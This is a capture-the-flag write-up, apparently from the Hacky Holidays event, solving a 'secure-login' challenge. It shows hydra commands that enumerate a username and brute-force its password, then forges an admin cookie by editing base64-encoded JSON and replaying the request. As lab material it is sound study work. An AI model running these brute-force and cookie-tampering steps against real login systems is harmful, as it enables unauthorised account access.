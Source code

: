 And yet again, no way to sign up >:( Maybe there's some hidden sign up page... Apparently not - fuzzing reveals nothing of interest. Let's try logging in, then!
`test:test`
{F1138481}

No dice, go... Wait, *username* doesn't exist? Perhaps it will tell us when we find a proper username, let's try running hydra.
```bash
hydra -L /usr/share/seclists/Usernames/Honeypot-Captures/multiplesources-users-fabian-fingerle.de.txt -p wot 18.216.153.32 https-post-form '/secure-login:username=^USER^&password=^PASS^:Invalid Username'
[...]
[443][http-post-form] host: 18.216.153.32   login: access   password: wot
```

Nice, seems the page properly informs us that the username `access` is valid by saying the password is incorrect:
{F1138485}

Let's use hydra again to see if we can get the password too:
```bash
hydra -l access -P /usr/share/wordlists/rockyou.txt 18.216.153.32 https-post-form '/secure-login:username=^USER^&password=^PASS^:Invalid Password'
[443][http-post-form] host: 18.216.153.32   login: access   password: computer
1 of 1 target successfully completed, 1 valid password found
```
Bingo, `computer`. After logging in using `access:computer` as credentials, we are greeted with the following, very informative, message:
{F1138486}

Looking at the source also gives us nothing, but I noticed that the cookie in the HTTP request seems to be a base64 encoded value:

{F1138488}

```javascript
atob(decodeURIComponent("eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0%3D"));
// {"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":false}
```

Apparently, we don't have admin privileges... But it does look like we can change that:
```javascript
encodeURIComponent(btoa('{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":true}'));
// eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjp0cnVlfQ%3D%3D
```

Using Burp, we send the request for `https://hackyholidays.h1ctf.com/secure-login` to the repeater and change the value of the `securelogin` cookie to our new forged JSON object before hitting `Send`:
{F1138487}

Seems there's a hidden zip-file that the Grinch doesn't want us to have! Let's get it from [here](https://hackyholidays.h1ctf.com/my_secure_files_not_for_you.zip)!

Opening the file, it turns out it has been password protected:
{F1138490}
